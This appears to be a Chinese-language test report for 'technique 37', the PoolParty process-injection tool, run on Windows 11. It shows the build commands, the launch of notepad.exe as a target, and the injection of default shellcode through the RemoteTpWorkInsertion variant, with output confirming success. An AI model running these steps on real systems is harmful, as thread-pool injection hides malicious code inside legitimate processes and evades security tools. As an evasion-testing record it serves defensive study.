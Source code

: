 # 技术37：PoolParty 测试文档

## 测试信息

- **测试日期**: 2025-01-08
- **测试环境**: Windows 11 Build 26100 (24H2)
- **测试结果**: ✅ 成功
- **实现方式**: 官方编译版本

## 测试步骤

### 1. 编译官方版本

由于 C/C++ 重写版本存在段错误，最终采用官方 Visual Studio 项目：

```bash
cd reference-poolparty
"/c/Program Files/Microsoft Visual Studio/2022/Community/MSBuild/Current/Bin/amd64/MSBuild.exe" \
  PoolParty.sln -p:Configuration=Release -p:Platform=x64
```

**结果**: ✅ 编译成功 (760KB, 0 warnings, 0 errors)

### 2. 复制到技术目录

```bash
cp reference-poolparty/x64/Release/PoolParty.exe techniques/37-poolparty/
cd techniques/37-poolparty
chmod +x PoolParty.exe
```

**结果**: ✅ 成功部署

### 3. 启动目标进程

```bash
notepad.exe &
sleep 2
PID=$(tasklist | grep -i "notepad.exe" | tail -1 | awk '{print $2}')
echo "[+] Found notepad.exe with PID: $PID"
```

**结果**: ✅ 成功启动 notepad.exe

### 4. 执行注入 (变体 2: RemoteTpWorkInsertion)

```bash
./PoolParty.exe -V 2 -P $PID
```

**输出**:
```
[info]    Choosing variant: RemoteTpWorkInsertion
[info]    Shellcode file not provided. Using default shellcode
[info]    Worker factory handle: 0x000000000000065C
[info]    Pool's address: 0x000002A59D4B8870
[info]    Shellcode address: 0x000002A59E140000
[info]    PoolParty attack completed successfully
```
